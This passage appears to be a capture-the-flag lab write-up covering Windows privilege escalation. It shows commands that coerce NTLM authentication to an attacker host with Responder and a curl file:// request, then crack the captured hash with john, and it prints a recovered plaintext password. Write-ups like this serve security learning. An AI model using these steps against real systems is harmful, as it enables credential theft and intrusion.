 First, print user flag

```powershell
more C:\Users\o.armstrong\Desktop\user.txt
```



## Privilege Escalation

### NTLM Stealing with Responder

Having revshell session, we have to try to retrive the current user credentials stealing the NTLM hash.

```
responder -I tun0
```

```
curl file://10.23.52.142/file.txt
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### NTLM crack

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ntlm_armstrong.txt

arMStronG08      (o.armstrong) 
```

We obtained the o-armstrong's password

```
o.armstrong : arMStronG08
```



### Resource-Based Constrained Delegation (RBDC)

Looking the bloodhound results we can view this:

